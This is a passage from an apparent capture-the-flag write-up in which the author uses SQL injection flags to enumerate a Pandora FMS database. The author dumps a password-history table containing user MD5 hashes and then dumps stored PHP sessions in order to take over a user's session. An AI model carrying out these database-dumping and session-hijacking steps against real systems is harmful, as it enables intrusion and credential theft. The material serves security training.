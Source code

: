 `-D pandora --tables` shows 178 (!) tables:

```

Database: pandora
[178 tables]                                  
+------------------------------------+
| taddress                           |
| taddress_agent                     |             
| tagent_access                      |
| tagent_custom_data                 |
| tagent_custom_fields               |
| tagent_custom_fields_filter        |
...[snip]...

```

### Session as matt

#### Password Fails

Looking though the table names, there’s one called `tpassword_history`, which I’ll dump with `-D pandora -T tpassword_history --dump`:

```

Database: pandora
Table: tpassword_history
[2 entries]
+---------+---------+---------------------+----------------------------------+---------------------+
| id_pass | id_user | date_end            | password                         | date_begin          |
+---------+---------+---------------------+----------------------------------+---------------------+
| 1       | matt    | 0000-00-00 00:00:00 | f655f807365b6dc602b31ab3d6d43acc | 2021-06-11 17:28:54 |
| 2       | daniel  | 0000-00-00 00:00:00 | 76323c174bd49ffbbdedf678f6cc89a6 | 2021-06-17 00:11:54 |
+---------+---------+---------------------+----------------------------------+---------------------+

```

These look like MD5 hashes, but neither cracks in [CrackStation](https://crackstation.net/).

Another table that jumps out is `treset_password`, but it’s empty, and I can’t find a way to trigger a reset.

#### Dump Sessions

Looking through the table names, it looks like the PHP sessions could be stored in `tsessions_php`. I’ll dump it with `-D pandora -T tsessions_php --dump --where "data<>''"`:

```

Database: pandora                                                                                        
Table: tsessions_php                                                                                     
[20 entries]                                                                                             
+----------------------------+-----------------------------------------------------+-------------+
| id_session                 | data                                                | last_active |                                                                                                                 
+----------------------------+-----------------------------------------------------+-------------+       
```